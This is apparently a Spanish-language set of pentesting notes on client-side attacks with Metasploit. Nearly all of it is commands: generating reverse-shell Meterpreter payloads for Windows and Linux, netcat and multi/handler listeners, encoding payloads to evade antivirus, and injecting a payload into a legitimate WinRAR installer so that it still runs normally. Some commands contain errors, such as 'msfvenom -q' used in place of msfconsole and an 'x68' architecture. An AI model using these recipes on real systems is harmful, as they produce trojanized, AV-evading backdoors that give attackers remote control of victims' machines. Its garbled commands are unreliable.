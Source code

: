 # Ataques del lado del cliente con Metasploit 

Tags: #Metasploit #Msfvenom #Encode #Payloads #Shellcode #AntiVirus #InjectPayloads #Automatizar

* Client-Side Attacks: Es un vector de ataque hace que un cliente ejecute un payload malicioso en su sistema que consecuentemente hará una conexión trasera con un atacante cuando sea ejecutado. Utiliza documentos o archivos ejecutables. 

## Msfvenom Payloads

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Para Windows 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx86.exe

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (exe, war, etc...)

❯ msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx64.exe
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx86

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (elf, exe, war, etc...) y podemos o no agregarle la extension 

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx64
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


---

## Encodear Payload con MSF

* Se utiliza el encodeamiento de los payload ya que los atacantes después de transferir y almacenar los payloads maliciosos en los discos duros de los clientes, los atacantes necesitan estar consientes de la detección de los Antivirus (AV).  Los usuarios finales de soluciones de AV utilizan detección basada en orden para identificar archivos o ejecutables maliciosos. Podemos evadir los AV encodeando nuestros payloads. Encodear es un proceso de modificar el Shellcode del payload con el objetivo de modificar la firma del payload. 

* Shellcode: Es una pieza de código típicamente usada como un payload para explotación. 

```bash 
❯ msfvenom --list encoders               # Lista de encoders
```

### Para Windows 

```bash 
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe
	# e = Nombre del encoder 


❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f elf > /home/kali/Desktop/encodex86

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


---

## Inyectar Payload dentro de ejecutables portables de Windows 

```bash 
1. Debemos descargar un archivo ejecutable de Google (WinRAR = wrar6.exe)
```

```bash 
# Creamos el payload y se lo pasamos a un archivo ejecutable 'confiable'
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar6.exe > ~/Desktop/Winrar.exe
	# x = Especificar el archivo ejecutable para usar como plantilla (No inicia el proceso del archivo ejecutable)

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -k -x ~/Downloads/wrar6.exe > ~/Desktop/Winrar.exe
	# k = Preserva la plantilla con el comportamiento original del ejecutable y ademas inyecta el payload (Inicia normal el proceso del archivo ejecutable)
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```